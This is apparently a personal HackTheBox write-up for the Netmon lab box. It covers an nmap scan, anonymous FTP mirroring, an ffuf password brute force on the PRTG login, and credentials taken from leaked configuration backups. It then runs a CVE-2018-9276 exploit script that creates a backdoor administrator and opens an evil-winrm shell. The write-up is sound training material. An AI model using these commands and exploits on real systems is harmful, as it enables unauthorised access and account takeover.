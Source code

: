 ```yaml
---
tags:
  - hack
  - windows
---
```

# HackTheBox: [Netmon](https://app.hackthebox.com/machines/Netmon)

## Services

### TCP

`nmap` TCP scan:

```console
# Nmap 7.94SVN scan initiated Mon Sep  9 10:03:30 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-netmon.htb.txt netmon.htb
Nmap scan report for netmon.htb (10.10.10.152)
Host is up, received user-set (0.099s latency).
rDNS record for 10.10.10.152: t
Not shown: 49819 closed tcp ports (reset), 15703 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
21/tcp    open  ftp          syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  unknown      syn-ack ttl 127
49666/tcp open  unknown      syn-ack ttl 127
49667/tcp open  unknown      syn-ack ttl 127
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  unknown      syn-ack ttl 127
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-09-09T16:04:49
|_  start_date: 2024-09-08T18:36:25

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep  9 10:05:46 2024 -- 1 IP address (1 host up) scanned in 136.06 seconds
```

### 21/ftp

Anonymous FTP is permitted. A windows filesystem is exposed there. Interestingly there's a `user.txt` flag readable in `\Users\Public\Desktop` but it doesn't work.

MIrrored via: `wget --mirror 'ftp://anonymous:hax@netmon.htb'`

#### 80/tcp-http

```console
$ whatweb -a3 http://netmon.htb/
http://netmon.htb/ [302 Found] Country[RESERVED][ZZ], HTTPServer[PRTG/18.1.37.13946], IP[10.10.10.152], PRTG-Network-Monitor[18.1.37.13946,PRTG], RedirectLocation[/index.htm], UncommonHeaders[x-content-type-options], X-XSS-Protection[1; mode=block]
ERROR Opening: http://netmon.htb/index.htm - incorrect header check
```

```http
$ curl -I http://netmon.htb/index.htm
HTTP/1.1 200 OK
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 33654
Date: Mon, 09 Sep 2024 16:05:29 GMT
Expires: 0
Cache-Control: no-cache
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
Server: PRTG/18.1.37.13946
```

![](_/htb-netmon-20240909-1.png)

```console
$ ffuf -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -u http://netmon.htb/public/checklogin.htm -X POST -d 'username=prtgadmin' -d 'password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -ac
...
:: Progress: [10000/10000] :: Job [1/1] :: 29 req/sec :: Duration: [0:05:51] :: Errors: 9 ::
```

## Remote Code Execution

Old credentials leaked via Anonymous FTP in an old config file: `Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old`

```xml
...
<name>
  PRTG System Administrator
</name>
<ownerid>
  100
</ownerid>
<password>
  <flags>
    <encrypted/>
  </flags>
  <cell col="0" crypt="PRTG">
    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
  </cell>
  <cell col="1" crypt="PRTG">
    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
  </cell>
</password>
```

And another, from a `.bak` copy:

```xml
<name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ====
                  </cell>
                  <cell col="1" crypt="PRTG">
                    M24VKFRECBEGN3ZQNGSET723GFIPVHYX
                  </cell>
                </password>
```

I tried [prtg_string_decryptor.py](https://github.com/yobabyte/decryptocollection/tree/main) on both sets of encrypted credentails, with bad results:

```console
$ ./prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' 'JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======'
-305569838

$ ./prtg_string_decryptor.py aes --guid '{221B25D6-9282-418B-8364-F59561032EE3}' 'PDWXMOPZT43U2GKGR3YCBILXDMLAUZVBN27KGBOPKXRQ===='
-1840798137
```

From `/Users/All Users/Paessler/PRTG Network Monitor/PRTG Configuration.old.bak`:

```text
...
<dbpassword>
  <!-- User: prtgadmin -->
  PrTg@dmin2018
</dbpassword>
...
```

That didn't work but `PrTg@dmin2019` did:

![](_/htb-netmon-20240909-2.png)

Now I can try [CVE-2018-9276](https://github.com/A1vinSmith/CVE-2018-9276):

```console
$ ./46527.sh -u http://netmon.htb -c '_ga=GA1.2.1686798169.1725897817; _gid=GA1.2.1816280327.1725897817; OCTOPUS1813713946=ezc2QjMxQ0RELUI2MzUtNDI5NS04QTIxLTk1NjA2NDFEMkRFOH0%3D'
...
 [*] file created
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st'
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun!
```

```powershell
$ evil-winrm -i netmon.htb -u pentest -p 'P3nT3st!'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\pentest\Documents> whoami
netmon\pentest
```

## Privilege Escalation

Because the RCE exploit above returns a privileged user, no further privilege escalation is necessary.

## Post-exploitation

Life after `root`.

## Open Questions

## Credits
